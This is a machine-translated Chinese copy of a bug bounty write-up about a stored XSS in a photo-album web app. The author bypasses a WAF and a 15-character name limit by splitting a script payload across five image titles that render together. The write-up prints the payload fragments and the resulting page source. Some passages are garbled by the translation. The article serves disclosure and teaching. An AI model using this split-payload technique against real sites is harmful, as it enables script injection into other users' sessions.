 # XSS WAF &像老板一样绕过性格限制

> 原文：<https://infosecwriteups.com/xss-waf-character-limitation-bypass-like-a-boss-2c788647c229?source=collection_archive---------0----------------------->

H **ello 各位黑客！**

由于冠状病毒在世界范围内爆发，我在房间里呆了 3 天，感觉很无聊。所以我想为什么不写一篇我很久以前承诺过的文章呢🤭。几个月前，在我的推特上，我分享了一个在私人 bug bounty 网站上找到的绕过 XSS WAF 字符限制的方法。今天我将分享更多关于旁路的技术细节。希望你们会喜欢😇

早在 2019 年，我测试了一个网络应用程序，允许用户创建相册并上传照片，界面看起来像下面的截图-

![](img/353638ee86b37d8d56dbebf9fa1f2064.png)

**应用界面🤔**

当我点击**编辑**时，还有重命名图片的选项，所以通常任何研究人员都会在这里测试 XSS，因为有一种方法可以改变照片名称。所以我把照片的名字改成了下面的有效载荷-

```
xsstest'">{{7*7}}
```

> **然后我注意到了下面的事情——**

*   输入中有 15 个字符限制，所以我能够注入`**xsstest'">{{7*7**`这些字符。
*   所有特殊字符都被正确转义。
*   最后我被重定向到了 **/error.aspx？code=500** 当我试图再次加载相册时，由于 WAF 的原因，我必须将图像重命名为**xst est**，这样我就可以再次加载相册了。

看起来这个输入很好地防止了 XSS 攻击。然后我开始玩其他可用的选项，将**打嗝套装工具**与我的浏览器连接，并保持它打开，以捕捉 **HTTP 历史**中的所有后台请求。然后，当我浏览 HTTP 历史选项卡时，一个后台请求端点引起了我的注意，看起来像是 https://subdomain.company.com/ajax/generateImageList.ashx?JSON = { albums:[{ " ID ":"<picture _ ID>，" value":"on"}]} 。该请求针对相册**幻灯片**选项，端点页面源为:-

```
<a href="https://image-link.com/image.jpg" title="xsstest" rel="lightbox[gallery]">84**00000</a>
```

看看**标题**属性值我们在那个相册里的图像名称是什么。因此，我再次将我的图片名称重命名为`**xsstest'">**`，并再次检查了**Ajax/generateimagelist . ashx**页面源代码，这次是-

```
<a href="https://image-link.com/image.jpg" title="xsstest'">" rel="lightbox[gallery]">84**00000</a>
```

> **所以在这个新的 generateImageList.ashx 端点——**

*   用户输入没有正确转义。
*   没有晶片检测。

但是我们仍然有 15 个字符的限制，这使得这个 xss 没有用。我们能想到的最小 xss 有效载荷是`**"oncut="alert()**`，当我们在键盘上按下**窗口**窗口&窗口`COMMAND+X`窗口 **OS X** 窗口`CTRL+X`时，会弹出一个空白窗口

```
<a href="https://image-link.com/image.jpg" title=""oncut="alert()" rel="lightbox[gallery]">84**00000</a>
```

![](img/c0e1c1113078b80eae1b72a9b19967db.png)

**空白弹出框😪**

我尝试了所有可能的方法来绕过这个字符限制，但无法做到这一点。我在这里停止了测试，并在我的**待办事项列表**中保存了关于这个端点的信息，以便在我再次测试这个资产时在这里查看。大约七个月后，我再次开始测试这个资产，并再次在这个端点上工作。现在我注意到我可以上传相册中的多张照片，通过选择相册中的所有照片，**幻灯片显示**选项请求端点更改为**https://subdomain . company . com/Ajax/generatealbumimagelist . ashx？JSON = { albums:[{ " ID ":"<album _ ID>，" value":"on"}]}** ，页面来源:-

```
<a href="https://image-link.com/image.jpg" title="xsstest'">" rel="lightbox[gallery]">84**00000</a><a href="https://image-link.com/image.jpg" title="xsstest'">" rel="lightbox[gallery]">84**00001</a>
```

所以现在我们有多次注射。那么为什么不上传相册中的 5 张图片，并使用 [**我的推文**](https://twitter.com/prial261/status/1172973681200418819) 提到的有效载荷呢？

> **有效载荷:**

*   **第一次注射:** `*/</script><!--`
*   **第二次注射:** `*/.domain)/*xxx`
*   **第三次注射:** `*/(document/*xx`
*   **第四次注射:** `*/prompt/*xxxxx`
*   **第 5 次注射:** `"><script>/*xss`

> **页面源在最终注入后变成:-**

```
<a href="[https://image-link.com/image.jpg](https://image-link.com/image.jpg)" title="**"><script>/*xss**" rel="lightbox[gallery]">84**00000</a><a href="[https://image-link.com/image.jpg](https://image-link.com/image.jpg)" title="***/prompt/*xxxxx**" rel="lightbox[gallery]">84**00001</a><a href="[https://image-link.com/image.jpg](https://image-link.com/image.jpg)" title="***/(document/*xx**" rel="lightbox[gallery]">84**00002</a><a href="[https://image-link.com/image.jpg](https://image-link.com/image.jpg)" title="***/.domain)/*xxx**" rel="lightbox[gallery]">84**00003</a><a href="[https://image-link.com/image.jpg](https://image-link.com/image.jpg)" title="***/</script><!--**" rel="lightbox[gallery]">84**00004</a>
```

现在访问**https://subdomain . company . com/Ajax/generatealbumimagelist . ashx？JSON = { albums:[{ " ID ":"<album _ ID>，" value":"on"}]}** 将执行我们使用的有效负载:-

![](img/2af67b78da6b812b4bc2cec33981f81a.png)

**繁荣😎🔥**

现在你可能会问为什么我在**第二到第五**有效载荷中多次使用`x`字符？答案是相册图片是根据名称长度+上传时间排序的。所以我多次使用`x`字符来使所有图片名称长度相同，这样当我上传图片时，它会根据图片上传时间排序。

希望你们喜欢这个。PM 我在 [***推特***](https://twitter.com/prial261/) 或 [**脸书**](https://www.facebook.com/prial261) 如果你有任何问题。

*# Stay _ Home
# Stay _ Safe
# Wash _ Your _ Hand _ frequency
# Hack _ The _ Planet***🔥**

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)